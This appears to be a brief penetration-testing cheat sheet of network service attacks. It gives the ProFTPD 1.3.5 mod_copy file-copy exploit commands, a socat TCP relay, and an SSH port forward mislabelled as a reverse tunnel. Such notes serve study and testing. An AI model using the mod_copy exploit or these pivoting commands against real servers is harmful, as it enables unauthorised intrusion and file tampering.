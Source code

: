 # Network Services Exploits

## Proftpd v1.3.5

### mod_copy RCE
```sh
nc 0.0.0.0 21
SITE CPFR /path/to/file
SITE CPTO /path/to/destination/file
```

## SOCAT

### TCP Relay

```sh
./socat TCP-LISTEN:8006,fork TCP:127.0.0.1:8080
```

## SSH

### Reverse SSH Tunnel

- Forward port from remote machine to local machine
```sh
# Open tunnel on local machine to remote machine
# Will forward port 10000 form remote to local
ssh -L 10000:localhost:10000 <username>@<ip>
```